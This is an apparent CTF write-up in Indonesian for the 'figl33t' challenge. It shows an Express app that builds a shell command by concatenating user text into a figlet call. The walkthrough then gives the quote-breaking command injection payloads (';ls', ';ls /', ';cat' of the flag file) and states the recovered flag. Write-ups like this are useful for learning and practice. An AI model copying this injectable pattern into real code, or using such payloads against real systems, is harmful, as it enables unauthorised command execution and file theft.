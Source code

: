 # figl33t
> My friend really likes ascii art. So I created this website for her.
> 
> http://103.167.136.89:10056/
> 
> Author: bleedz#0666 (Discord) / @bl33dz (Tele)

## About the Challenge
Diberikan sebuah website dengan tampilan 
<img width="920" alt="image" src="https://github.com/dotnaonweh/ForestyCTF/assets/49785290/75e6b76d-e554-4865-868e-14e87dc3cc4d">


Dan juga diberikan code

```const express = require('express');
const bodyParser = require('body-parser');
const exec = require('child_process').exec;
const app = express();

app.use(express.static('public'));
app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.sendFile(`${__dirname}/public/index.html`);
    }
);

app.post('/figlet', (req, res) => {
    let cmd = 'timeout 1 figlet \'' + req.body.text + '\'';
    exec(cmd, (err, stdout, stderr) => {
        if (err) {
            console.log(stderr);
            res.send('Error');
        } else {
            res.send(stdout);
        }
    });
});

app.listen(3000, () => {
    console.log('figl33t listening on port 3000!');
});
```
    

## How to Solve?
Jika kita lihat pada code yang diberikan, kita bisa lihat pada endpoint /figlet terdapat Vulnerability Command Injection.

Coba test dengan payload 
> ';ls'

<img width="600" alt="image" src="https://github.com/dotnaonweh/ForestyCTF/assets/49785290/344769ef-6746-4e0e-a060-bea90aa9b485">

Dan benar saja, disitu muncul list file dan direktori, akan tetapi flag nya tidak ada di direktori tersebut, kita coba cek di direktori / dengan payload 
> ';ls /'

<img width="456" alt="image" src="https://github.com/dotnaonweh/ForestyCTF/assets/49785290/596d9e5b-93a7-4556-8117-7989707fe6f0">


terdapat file flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt, langsung saja kita cek dengan payload
> ';cat ../flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt'

didapatkan flag nya yaitu  : ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}
